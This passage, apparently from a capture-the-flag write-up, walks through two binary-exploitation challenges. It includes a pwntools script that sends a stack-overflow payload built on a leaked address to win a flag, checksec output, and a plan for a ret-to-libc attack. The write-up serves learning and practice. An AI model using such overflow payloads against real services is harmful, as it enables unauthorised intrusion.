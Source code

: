 ```python
p = pwn.remote(HOST, PORT)
p.recvuntil(b":")
p.sendline(b"Color me your color, baby")
p.recvuntil(b":")
p.sendline(b"Color me your car")
p.recvuntil(b":")
p.sendline(b"Color me your color, darling")
leaked_address = p.recvuntil(b"target=")
leaked_address = p.recvline().strip().decode()
p.sendline(
	b"a" * OFFSET
	+ pwn.p32(int(leaked_address, 16))
	+ b"a" * 4
	+ pwn.p32(int(FIRST_PARAM, 16))
	+ pwn.p32(int(SECOND_PARAM, 16))
	+ pwn.p32(int(THIRD_PARAM, 16))
)
p.interactive()
```

Doing so I was able to get the first flag

```
BASC{you_g0t_the_args_right}
```

Since the exercise description hinted the presence of other flags I tried to gather more info about the file security using the **checksec** command

```json
{
	"call_me_thaMilo": 
	{
	    "relro": "full",
	    "canary": "no",
	    "nx": "yes",
	    "pie": "yes",
	    "rpath": "no",
	    "runpath": "no",
	    "symbols": "no",
	    "fortify_source": "no",
	    "fortified": "0",
	    "fortify-able": "2"
	}
}
```

Since **nx** is enabled is impossible to execute shell-codes and considering all the other security measures the only vulnerability I could find was trying to conduct a ret-to-libc attack.

# the_answer

```
There is a unique answer to the Ultimate Question of Life, the Universe, and Everything.
BTW, `0xbadc0ffe` isn'it.

Warning: Ghidra's decompiler sometimes (it depends on the Ghidra version) tries too hard to be clever and may "optimize" (=hide/remove) something it shouldn't.
So, do not blindly trust its output and take a look at the assembly view as well.
```
